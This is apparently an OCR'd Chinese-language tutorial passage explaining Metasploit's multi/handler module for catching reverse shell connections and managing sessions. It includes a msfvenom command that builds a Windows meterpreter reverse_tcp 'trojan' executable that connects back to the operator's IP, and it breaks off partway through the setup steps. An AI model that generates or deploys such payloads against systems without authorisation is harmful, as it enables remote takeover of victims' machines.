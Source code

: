  

\### **核心功能：**

1. **接收反弹连接（Reverse Shell/Connection）**：

  \- 当你在目标系统上成功执行了一个**反向Payload**（如 `reverse_tcp`, `reverse_http`, `meterpreter/reverse_tcp` 等）后，目标系统会主动尝试连接到你控制的机器。

  \- `multi/handler` 就是用来监听这个连接的“接收器”。

 

2. **会话管理（Session Management）**：

  \- 一旦目标系统连接回来，`handler` 会自动创建一个交互式会话（Session）。

  \- 你可以通过这个会话直接控制目标系统（如执行命令、上传文件、权限提升等）。

 

\---

 

\### **为什么需要它？**

\- **场景举例**：

1. 你使用 `msfvenom` 生成一个木马（Payload）：

   \```bash

   msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的IP LPORT=4444 -f exe > payload.exe

   \```

2. 将 `payload.exe` 在目标机器上执行。
3. **此时目标会主动连接你的IP:4444**。
4. 你需要提前在Metasploit中启动 `multi/handler` **监听4444端口**，才能接收到这个连接。

 

\---

 

\### **你看到的提示解析：**

\```bash

msf6 > use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp

\```

\- 你选择了 `multi/handler` 模块。

\- Metasploit **自动使用了默认配置的Payload**：`generic/shell_reverse_tcp`（一个通用的反向Shell）。

 

\---

 

\### **如何正确使用？**

1. **设置Payload参数**（必须与攻击载荷匹配）：
